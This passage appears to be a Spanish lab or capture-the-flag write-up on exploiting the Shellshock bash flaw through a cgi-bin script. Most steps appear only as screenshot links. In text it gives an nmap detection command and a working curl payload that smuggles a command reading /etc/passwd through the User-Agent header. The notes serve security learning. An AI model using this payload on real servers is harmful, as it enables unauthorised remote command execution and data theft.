 ## **VULNERABILIDAD SHELLSHOCK**

Ahora que vemos que estamos ante un fichero -sh y se trata de una bash, ya que vemos también que la ruta es cgi-bin, podemos intentar explotar la vulnerabilidad shellshock, para colarnos en esa bash y lanzar comandos remotos; para hacer la comprobación lo haremos de esta manera:

![[Pasted image 20221217112739.png]]

Y nos dice que esta bash de la máquina víctima es vulnerable:

![[Pasted image 20221217112746.png]]

Ahora vamos a explotar la vulnerabilidad, ya que existen peticiones especialmente hechas para colar comandos en esta bash vulnerable; y por internet podemos encontrar información:

![[Pasted image 20221217112754.png]]

Y ahora si lanzamos es comando pero pasándole la IP y el cgi-bin/user.sh, podremos lanzar un comando, por ejemplo un whoami:

![[Pasted image 20221217112803.png]]

Pues ahora sabiendo esto, vamos a lanzar la remote shell, para ello nos ponemos por escucha con netcat:

![[Pasted image 20221217112811.png]]

Lanzamos la shell interactiva:

![[Pasted image 20221217112819.png]]

Y nos llega la conexión:

![[Pasted image 20221217112826.png]]

Y por aquí la flag:

![[Pasted image 20221217112834.png]]

# OPCION 2

Para detectar si un target es vulnerable a shellshock, podemos usar este script de nmap pasándole el fichero con extensión .cgi que podremos encontrar dentro de la web:
```bash
nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
192.242.220.3
```
![[Pasted image 20230731100233.png]]
Además de ver que hay un archivo con extensión .cgi:
![[Pasted image 20230731100457.png]]
Si buscamos por internet, vemos un comando para explotar esto mismo y tener ejecución remota de comandos:
![[Pasted image 20221217112754.png]]
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable
```
Por tanto ejecutamos esto mismo contra la máquina víctima interceptando primero la petición con burp suite:
![[Pasted image 20230731100932.png]]
Y a continuación lanzamos el payload:
![[Pasted image 20230731101110.png]]

